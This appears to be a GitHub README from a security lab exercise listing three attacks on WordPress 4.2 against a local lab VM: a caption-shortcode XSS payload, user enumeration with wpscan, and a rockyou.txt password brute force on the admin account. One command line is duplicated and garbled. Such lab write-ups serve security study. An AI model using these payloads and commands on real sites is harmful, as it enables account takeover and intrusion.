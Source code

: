 # GitHub-V-Kali
Attack 1
XSS 
version 4.2
Summary - Wordpress allows you to execute JS on your browser when creating or editing pages or posts
how to recreate - Start a new page, put in any title you want ant then insurt this code into the main text box : TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">XSS 💀</a>

Attack 2
User Enumeration
Version 4.2
Summary - based on what messages we recieve from the website when we enter credentials we are able to tell if the user is real or not.
recreate In Kali terminal run: wpscan --url http://wpdistillery.vm --enumerate uinal run: wpscan --url http://wpdistillery.vm --enumerate u

Attack 3
Brute Force
Version 4.2
Summary - Create a list of of simple and common passowrds and with the usernames we got earlier we cann ow bruteforce those accounts witht the list.
Recreate -in Kali terminal run wpscan --url http://wpdistillery.vm --wordlist /usr/share/wordlists/rockyou.txt --username admin
